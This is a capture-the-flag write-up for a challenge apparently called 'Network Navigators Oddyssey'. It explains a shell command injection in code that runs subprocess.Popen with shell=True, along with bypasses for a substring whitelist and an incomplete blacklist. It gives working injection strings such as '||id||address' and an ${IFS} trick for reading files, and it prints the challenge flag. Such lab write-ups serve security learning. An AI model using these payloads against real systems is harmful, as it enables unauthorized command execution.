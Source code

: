# Network Navigators Oddyssey Writeup
## The Weaknesses
### Command Injection:
- User input is being passed directly to `subprocess.Popen()` function with `shell=True`, which allows it to be interpreted by the system shell.
### Whitelist Bypass:
- Enter a random value as an option and you'll get the following error:
```
Sorry, but only these options are availabe: ['address', 'link', 'maddress', 'neighbor', 'netconf', 'ntable', 'route', 'rule', 'tcpmetrics', 'token']
```

- If you look closely at the code, you'll spot that the code doesn't check if the option is completely equal to one of the options in the whitelist, but only checks whether it's present there or not, so an attacker could simply enter `testaddress` , and he won't get and error, because `address` is whitelisted.
### Blacklist bypass:
Implementing a blacklist to prevent command injection might not be the most effective approach. In this case, the developer forgot the pipe symbol `|` which leaves the attacker with the ability to execute system commands on the server using something like `||id||address` .
## Reading the flag
- Now that we have RCE, we can try something like `||ls${IFS}/||address` to locate the flag ( `${IFS}` is used to bypass blacklisted whitespaces), you'll get something like this in the output : 
```
app
bin
dev
etc
flagfbbed20a24.txt
home
.
.
.
```
Finally, you can read it using `||grep${IFS}"shellmates"${IFS}/flag*||address` (PS : you may find another solution to do it)

## Flag
`shellmates{S1l3nc3d_S3rv3r5___Ech0_Just1c3}`
